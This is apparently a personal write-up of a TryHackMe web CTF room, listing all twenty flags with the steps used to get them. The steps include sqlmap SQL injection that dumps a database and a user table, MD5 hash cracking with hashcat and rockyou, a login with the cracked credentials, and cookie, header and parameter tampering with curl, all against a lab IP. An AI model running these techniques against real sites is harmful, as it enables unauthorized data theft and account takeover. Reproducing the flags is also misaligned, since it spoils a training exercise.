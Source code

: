 ```yaml
---
Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.
---
```


*Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise*

- Easter 1 *THM{4u70b07_r0ll_0u7}* (ip/robots.txt /decode from hex)
- Easter 2 *THM{f4ll3n_b453}* (decode from base 64 till get DesKel_secret_base then go to path)
- Easter 3 *THM{y0u_c4n'7_533_m3}* (gobuster found /login path/view source code)
- Easter 4 *THM{1nj3c7_l1k3_4_b055}* (first use burpsuite and save the POST request like request.txt or another then 
```
sqlmap -r request.txt --dbs --batch
```
 will give me the name of 4 dbs available which one of these is THM_f0und_m3
 [sqlmap](https://resources.infosecinstitute.com/topic/important-sqlmap-commands/)

> Now let’s dump the tables

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 --tables
```

> found two tables nothing_inside and user

> Let’s see the structure of the nothing_inside table


```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T nothing_inside --columns
```

> found Easter_4 Only 1 field, let’s dump the table:

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
```

> [23:14:25] [INFO] adjusting time delay to 2 seconds due to good response times
THM{1nj3c7_l1k3_4_b0
[23:17:42] [ERROR] invalid character detected. retrying..
[23:17:42] [WARNING] increasing time delay to 3 seconds
55}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[23:18:23] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.122.55'                                                        
[*] ending @ 23:18:23 /2022-08-12/

- Easter 5 *THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql} *

> Still using the same SQL injection as for easter 4, let’s dump the user table

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T user --columns
```

> found password and username

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
```

```md5
hash-identifier
```
##### hashcat (or john)

```save hash
nano hashctf2
```
```
hashcat -m 0 hashctf2 /usr/share/wordlists/rockyou.txt
```
`05f3672ba34409136aa71b8d00070d1b:cutie`
> then login to http://IP/login with the credentials 

==Deskel:cutie==  give me 

- Easter 6 *THM{l37'5_p4r7y_h4rd}* (curl -s ip -D header.txt / then cat header.txt)
- Easter 7 *THM{w3lc0m3!_4nd_w3lc0m3}* (change cookie value to 1 in inspect mode then refresh page)
- Easter 8 *THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y} * (curl -s --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://IP/ | grep "Easter 8")
- Easter 9 *THM{60nn4_60_f457}* (curl -s http://IP/ready/) or using wget but will download it
- Easter 10 *THM{50rry_dud3} * (curl -s --referer "tryhackme.com" http://IP/free_sub/)
- Easter 11 *THM{366y_b4k3y}* ( curl -s -d "dinner=egg" -X POST http://IP/ | grep menu -B 1 )
- Easter 12 *THM{h1dd3n_j5_f1l3} * (curl -s http://IP/ | grep "\.js" ) then found jquery-9.1.2.js so (curl -s http://IP/jquery-9.1.2)  found a function - copy and go to [jscript](https://playcode.io/typescript/) 
> function ahem()
 {
    str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
    var hex  = str1.toString();
    var str = '';
    for (var n = 0; n < hex.length; n += 2) {
        str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
    }
    return str;
 }
document.write(ahem());  

==Easter 12 is THM{h1dd3n_j5_f1l3} ==
- Easter 13 *THM{1_c4n'7_b3l13v3_17}* (press the button)
- Easter 14 *THM{d1r3c7_3mb3d}*
 [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Render_Image('Raw'))
- Easter 15 *THM{ju57_4_64m3} * (#1st curl -d "answer=abcdefghijklmnopqrstuvwxyz" -X POST http://IP/game1/ give me another hash then / curl -d "answer=ABCDEFGHIJKLMNOPQRSTUVWXYZ" -X POST http://IP/game1/  the same hash and with the hints 
> hints: 51 89 77 93 126 14 93 10 
> We now have the numbers associated to each upper (99=A, 100=B, 101=C, … 141=Z) and lower (89=a, 90=b, …, 18=z) 

> decode : GameOver : enter like answ or curl -d "answer=GameOver" -X POST http://IP/game1/

- Easter 16 *THM{73mp3r_7h3_h7ml}* 
(curl -d "button1=button1&button2=button2&button3=button3" -X POST http://IP/game2/ )
`La vulnerabilidad de tipo Parameter Tampering consiste en la manipulación del valor de algún parámetro que se intercambia entre cliente y servidor`
- Easter 17 *THM{j5_j5_k3p_d3c0d3}*
> bin -> dec -> hex -> ascii
[rapidtables](https://www.rapidtables.com/convert/number/hex-to-ascii.html)
==Easter 17: THM{j5_j5_k3p_d3c0d3}==
- Easter 18 *THM{70ny_r0ll_7h3_366}* (curl -s -H "egg: Yes" http://IP/ | grep -i "Easter 18")
>Request header. Format is egg:Yes
- Easter 19 *THM{700_5m4ll_3yy}* (gobuster/ small path /img)
- Easter 20 *THM{17_w45_m3_4ll_4l0n6} * (curl -s -d "username=DesKel&password=heIsDumb" -X POST http://IP/ | grep -A 1 "Easter 20") 
> You need to POST the data instead of GET. Burp suite or curl might help.

[[REmux The Tmux]]